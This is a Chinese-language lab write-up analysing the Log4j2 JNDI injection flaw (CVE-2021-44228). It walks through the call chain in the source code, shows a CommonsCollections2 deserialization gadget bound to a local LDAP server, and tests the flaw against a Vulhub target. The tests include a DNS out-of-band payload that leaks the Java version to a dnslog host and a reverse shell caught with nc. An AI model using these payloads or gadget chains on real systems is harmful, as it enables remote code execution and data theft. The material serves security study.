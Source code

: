 # 分析版本

JDK8u141

依赖

```xml
<dependencies>
    <!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core -->
    <dependency>
        <groupId>org.apache.logging.log4j</groupId>
        <artifactId>log4j-core</artifactId>
        <version>2.14.1</version>
    </dependency>
    <!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api -->
    <dependency>
        <groupId>org.apache.logging.log4j</groupId>
        <artifactId>log4j-api</artifactId>
        <version>2.14.1</version>
    </dependency>
</dependencies>
```

# 分析流程

官方文档[Log4j – Log4j 2 Lookups (apache.org)](https://logging.apache.org/log4j/2.x/manual/lookups.html#SystemPropertiesLookup)

直接上payload再去分析

```java
public class log4jTest {
    public static final Logger LOGGER = LogManager.getLogger(log4jTest.class);
    public static void main(String[] args) {
        LOGGER.error("${jndi:ldap://localhost:10389/cn=Exp,dc=example,dc=com}");
    }
}
```

log4j漏洞最后是调用了JNDI的lookup方法，之后的就是LDAP和RMI的流程了，所以我们分析lo4j把断点打在InitialContext#lookup处，看调用栈。

调用到MessagePatternConverter#format，对日志内容进行格式化，当日志内容包含`${`时，会调用到`workingBuilder.append(config.getStrSubstitutor().replace(event, value));`

<img src="https://s2.loli.net/2024/08/05/zUZwj7JF9AOdu56.png" alt="image-20240805214144872" style="zoom:200%;" />

之后调用StrSubstitutor#substitude，将{}之间内容提取出来

```java
String varValue = resolveVariable(event, varName, buf, startPos, endPos); //此处varName已经为jndi:ldap://localhost:10389/cn=Exp,dc=example,dc=com
```

跟进StrSubstitutor#resolveVariable

```java
protected String resolveVariable(final LogEvent event, final String variableName, final StringBuilder buf,
                                 final int startPos, final int endPos) {
    final StrLookup resolver = getVariableResolver();
    if (resolver == null) {
        return null;
    }
    return resolver.lookup(event, variableName);  //跟进
}
```

Interpolator#lookup

```java
public String lookup(final LogEvent event, String var) {
    if (var == null) {
        return null;
    }

    final int prefixPos = var.indexOf(PREFIX_SEPARATOR);   //查找:的索引
    if (prefixPos >= 0) {
        final String prefix = var.substring(0, prefixPos).toLowerCase(Locale.US); //获取jndi
        final String name = var.substring(prefixPos + 1); //获取ldap://localhost:10389/cn=Exp,dc=example,dc=com
        final StrLookup lookup = strLookupMap.get(prefix);//下面解释
        if (lookup instanceof ConfigurationAware) {
            ((ConfigurationAware) lookup).setConfiguration(configuration);
        }
        String value = null;
        if (lookup != null) {
            value = event == null ? lookup.lookup(name) : lookup.lookup(event, name);//跟进
        }

        if (value != null) {
            return value;
        }
        var = var.substring(prefixPos + 1);
    }
    if (defaultLookup != null) {
        return event == null ? defaultLookup.lookup(var) : defaultLookup.lookup(event, var); 
    }
    return null;
}
```

![image-20240805220320242](https://s2.loli.net/2024/08/06/pXvms7I4o2haNzq.png)

很明显看到strLookupMap是个hashMap类，`ookup = strLookupMap.get(prefix);`调用key为jndi的value，得到JndiLookup跟进。

在`JndiManager.getDefaultManager()`中会get一个JndiManager对象，context属性是InitialContext

```java
//JndiLookup#lookup
public String lookup(final LogEvent event, final String key) {
    if (key == null) {
        return null;
    }
    final String jndiName = convertJndiName(key);
    try (final JndiManager jndiManager = JndiManager.getDefaultManager()) {
        return Objects.toString(jndiManager.lookup(jndiName), null);//调用
    } catch (final NamingException e) {
        LOGGER.warn(LOOKUP, "Error looking up JNDI resource [{}].", jndiName, e);
        return null;
    }
}
```

跟进JndiManager#lookup

```java
public <T> T lookup(final String name) throws NamingException {
    return (T) this.context.lookup(name); //上面提到了context是InitialContext，所以调用Context.lookup()
}
```

之后就是JNDI的流程了

之后我切到JDK8u201版本，添加了CC依赖。进行JNDI的反序列化测试，一样的可以弹计算器，就是需要目标有可利用依赖。

```java
public class JNDILDAPServerBypass {
    public static void main(String[] args) throws Exception {
        InitialContext initialContext = new InitialContext();
        //Reference refObj = new Reference("Test", "Test", "http://localhost:4444/");
        initialContext.rebind("ldap://localhost:10389/cn=Evil,dc=example,dc=com", getEvilPriorityQueue());

    }

    public static PriorityQueue getEvilPriorityQueue() throws Exception {
        //CC2
        byte[] code = Files.readAllBytes(Paths.get("G:\\Java反序列化\\class_test\\Test.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "pass");

        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, codes);

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());


        InvokerTransformer<Object, Object> invokerTransformer = new InvokerTransformer<>("newTransformer", null, null);

        //chainedTransformer.transform(1);

        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1)); //改为ConstantTransformer,把利用链断掉
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

        priorityQueue.add(templates);
        priorityQueue.add(1);

        ///Class transformingComparatorClass = TransformingComparator.class;  //也可以
        Class transformingComparatorClass = transformingComparator.getClass();
        Field transformer = transformingComparatorClass.getDeclaredField("transformer");
        transformer.setAccessible(true);
        transformer.set(transformingComparator, invokerTransformer);

        return priorityQueue;
    }

}
```

![image-20240806101730892](https://s2.loli.net/2024/08/06/ZDwdSGKeMsi4kyr.png)

# Vulhub靶场

进入`vulhub-master/log4j/CVE-2021-44228`拉取镜像

测试一些poc

## DNS带外

可以拿到一些系统信息

`${java:os}` `${sys:java.version}` java版本

`${env:JAVA_HOME}` 系统变量，等如果字符不符合DNS要求是获取不到的

举个例子获取靶机java版本`http://192.168.20.130:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.hvu8vg.dnslog.cn}`

![image-20240806143013392](https://s2.loli.net/2024/08/06/cYWjNF4feHzbPA8.png)

![image-20240806143027984](https://s2.loli.net/2024/08/06/ADs18kGcym6KwCW.png)

## 反弹shell

用Yakit，先生成LDAP反弹shell的反连地址，反连主机我填的是kali

![image-20240806155003990](https://s2.loli.net/2024/08/06/UZCD2gVqmk6LJdt.png)

![image-20240806155053023](https://s2.loli.net/2024/08/06/e8m9gUpfhRb4rMd.png)

kali nc开启8888端口监听，拿到靶机shell

![image-20240806155242722](https://s2.loli.net/2024/08/06/dQ1WokzJUfj9CaX.png)

当然拿到的是docker权限

![image-20240806155551345](https://s2.loli.net/2024/08/06/7q2Qw9V35GobOrI.png)

参考文章[Log4j2的JNDI注入漏洞（CVE-2021-44228）原理分析与思考 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/316143.html)